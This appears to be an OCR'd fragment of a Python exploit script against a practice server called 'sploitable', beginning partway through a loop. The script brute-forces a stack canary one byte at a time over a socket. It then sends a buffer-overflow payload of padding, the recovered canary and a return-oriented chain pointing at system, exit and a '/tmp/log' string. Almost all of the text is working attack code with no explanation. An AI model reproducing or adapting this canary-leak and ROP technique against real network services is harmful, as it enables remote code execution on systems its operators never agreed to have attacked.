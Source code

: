 ```python
    # [+] would you like to play a game?
    reponse = client.recv(35)
    # print (reponse.decode())
    # >
    reponse = client.recv(1)
    # print (reponse.decode())

    client.send(junk+canary+hex_byte)

    # [+] yeah, I don't think so
    time.sleep(0.1)
    reponse = client.recv(27)
    # print (reponse.decode())
    # [+] bye!
    reponse = client.recv(9)
    if (b"bye!" in reponse):
      canary += hex_byte
      print (str(canary_byte) + " " + hex(canary_byte))
      client.close()
      break
    client.close()

rop = p(0xdeadbeef) #EBP
rop += p(0x16c210)  # system
rop += p(0x15f070)  # exit
rop += p(0x8048c60) # /tmp/log

payload = junk + canary + rop

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.settimeout(10)
client.connect((target, port))
# [+] hello, my name is sploitable
reponse = client.recv(33)
# print (reponse.decode())
# [+] would you like to play a game?
reponse = client.recv(35)
# print (reponse.decode())
# >
reponse = client.recv(1)
# print (reponse.decode())

client.send(payload)

# [+] yeah, I don't think so
time.sleep(0.1)
reponse = client.recv(27)
# print (reponse.decode())
# [+] bye!
reponse = client.recv(9)
client.close()

```
